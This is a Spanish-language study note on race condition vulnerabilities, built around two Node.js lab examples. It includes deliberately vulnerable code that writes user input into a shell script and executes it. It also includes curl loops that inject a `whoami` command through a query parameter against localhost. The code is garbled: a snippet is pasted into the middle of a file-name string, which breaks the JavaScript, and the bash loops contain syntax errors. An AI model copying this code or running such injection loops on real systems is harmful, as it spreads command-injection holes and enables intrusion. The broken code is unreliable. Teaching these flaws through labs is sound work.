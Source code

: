 ----
- Tags: #ataques #teoria #practica #basico 
----

# ¿ Que son las **Race Condition** ? 

Las **condiciones de carrera (Race Condition)** son un tipo de vulnerabilidad que puede ocurrir en sistemas informáticos donde dos o más procesos o hilos de ejecución compiten por los mismos recursos sin que haya un mecanismo adecuado de sincronización para controlar el acceso a los mismos. 

Esto significa que si dos procesos intentan acceder a un mismo recurso compartido al mismo tiempo, puede ocurrir que la salida de uno o ambos procesos sea impredecible, o incluso que se produzca un comportamiento no deseado en el sistema. 

----

# Explotación 

Los atacantes pueden aprovecharse de las condiciones de carrera para llevar a cabo ataques de denegación de servicio ( **DoS** ), sobrescribir datos críticos, obtener acceso no autorizado a recursos, o incluso ejecutar código maliciosos en el sistema. 

Por ejemplo, supongamos que dos procesos intentan acceder a un archivo al mismo tiempo: uno para leer y el otro para escribir. Si no hay un mecanismo adecuado para sincronizar el acceso al archivo, puede ocurrir que el proceso de lectura lea datos incorrectos del archivo, o que el proceso de escritura sobrescriba datos importantes que necesitan ser preservados. 

Este ejemplo, se puede dar con el siguiente código: 

```javascript
// more code ....
app.get("/", (req, res) => {
  let hello = "";
  let action = req.query.action ? req.query.action : "run";
  if (action === "validate") {
    let person = req.query.person ? req.query.person : "Default User";
    let valid = boot_validate(person);
    if (valid == "") {
      boot_clean();
    }
  } else if (action == "reset") {
    boot_clean();
    boot_reset();
    boot_run();
  } else {
    boot_run();
    try {
      hello = fs.readFileSync("hello.tlet person = req.query.person ? req.query.person : "Default User";
    let valid = boot_validate(person);
    if (valid == "") {
      boot_clean();
    }xt", "utf8").toString();
    } catch (error) {
      hello = "Important hello file is missing, please reset.";
      boot_clean();
      boot_reset();
      boot_run();
    }
  }
  res.render("index.ejs", { action: action, hello: hello });
});

const boot_validate = (person) => {
  fs.writeFileSync("hello.sh", 'echo "' + person + '" > hello.txt');
  exec("echo 'hello.sh updated -- " + Date.now() + "' > log.txt");
  exec("echo 'hello.sh cleaned -- " + Date.now() + "' >> log.txt");
  exec("bash hello.sh");
  const valid = () => {
    return execSync(
      "sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh"
    ).toString();
  };
  return valid();
};

const boot_clean = () => {
  exec(`rm hello.txt`);
};

const boot_run = () => {
  exec(`bash hello.sh`);
};

const boot_reset = () => {
  fs.writeFileSync("hello.sh", "echo 'Default User' > hello.txt");
};

// .... more code

```

En este ejemplo tenemos dos funcionalidades muy importantes, la primera es la que se realiza cuando **validate** = 'action'. 

```javascript
let person = req.query.person ? req.query.person : "Default User";
    let valid = boot_validate(person);
    if (valid == "") {
      boot_clean();
}
```

Por lo que se ejecuta la función **boot_validate** con la query **person** recibida que es nuestro input el cual se va a alojar en el archivo **hello.sh** el cual se ejecutara posteriormente luego de validar que solo contenga caracteres alfanuméricos. 

Por otro lado, la funcionalidad importante que tenemos es la que se ejecuta en caso de que nuestra query **validate** no sea ni 'action' ni 'reset', dando el siguiente código: 

```javascript
 boot_run();
    try {
      hello = fs.readFileSync("hello.tlet person = req.query.person ? req.query.person : "Default User";
    let valid = boot_validate(person);
    if (valid == "") {
      boot_clean();
    }xt", "utf8").toString();
    } catch (error) {
      hello = "Important hello file is missing, please reset.";
      boot_clean();
      boot_reset();
      boot_run();
```

En esta también vemos que se ejecuta la función **boot_validate**, si bien esto de primeras este sanitizado, podríamos aprovecharnos de una condición de carrera ya que no esta adecuadamente programado, si bien si ingresamos un comando este se limpia y no se muestra (luego de ejecutarlo), intuimos que por un momento se ejecuta, por lo que si abusando de bucles estamos constantemente leyendo el resultado de la web en donde se lee el contenido hello.txt (Donde se alojaría el output de nuestro comando) a la vez que estamos constantemente ejecutando la petición de la ejecución de un determinado comando, en un punto la aplicación podría tener un fallo ya que ambos procesos, como ocurre en la condición de carrera, están compitiendo por los mismos recursos. 

```bash
# Por un lado estamos constantemente enviando la petición de que se ejecute el comando "whoami"
while true; do curl -s -X GET 'http://localhost:5000/?person=`whoami`&action=validate'; done

# Por otro lado, estamos constantemente leyendo el apartado de la web en donde se vuelca el output de estos comandos (Si se diera la condición de carrera y funciona podriamos llegar a ver el output del comando deseado en algunos momentos)
while true, do curl -s -X GET 'http://localhost:5000/?action=run' | html2text | xargs | grep 'Check this out:' ; done 
```

La prueba y análisis de este código se puede encontrar en este [repo](https://github.com/blabla1337/skf-labs/tree/master/nodeJs/RaceCondition). 

----

En otro ejemplo, tenemos el siguiente código: 

```javascript
// more code ...
app.get("/:value", (req, res) => {
  fs.writeFileSync("shared-file.txt", req.params.value);
  fs.open("shared-file.txt", "r", (err, fd) => {
    let file = fs.readFileSync("shared-file.txt", "utf8");
    res.setHeader("Content-Type", "text/html", "charset=utf-8");
    res.setHeader(
      "Content-Disposition",
      "attachment; filename=shared-file.txt"
    );
    res.sendFile(__dirname + "/shared-file.txt");
  });
});
// ... more code
```

Esto es una web local por el puerto 5000 la cual cuando ingresamos un parámetro x (:value), crea un archivo llamado **shared-file.txt** con el contenido ingresado como parámetro, por lo que si ponemos 'http://localhost:5000/dobliuw', nos intentara descargar un archivo **shared-file.txt** con el contenido *dobliuw*. 

Que pasa con esto? En principio, así como en el caso anterior, de puede acontecer un **Racea Condition** ya que, imaginemos que múltiples usuarios intentan crear su archivo en simultaneo, no solo podría acontecerse un *DoS*, si no que, en algún momento, podría llegar a ver la petición de otros usuarios, descargando así archivos con un contenido distinto al ingresado.

Esto se puede probar haciendo uso de [[Burpsuite]], en donde si preparamos una petición a la url 'http://localhost:5000/burpsuite' y por otro lado desde consola ejecutamos la siguiente línea: 

```bash 
while true, do curl -s -X GET 'http://localhost:5000/dobliuw' | grep -v "dobliuw" ; done
```

Estaríamos tramitando múltiples llamadas de intento de creación del archivo **shared-file.txt** con el contenido **dobliuw**, por lo que si ahora tramitamos la petición de burpsuite, en donde indicamos que (Según el código) queremos crear el archivo **shared-file.txt** con el contenido **burpsuite**, muy posiblemente en algún momento veamos el contenido **dobliuw** en la petición tramitada por [[Burpsuite]] y en la consola veamos el contenido **burpsuite**.  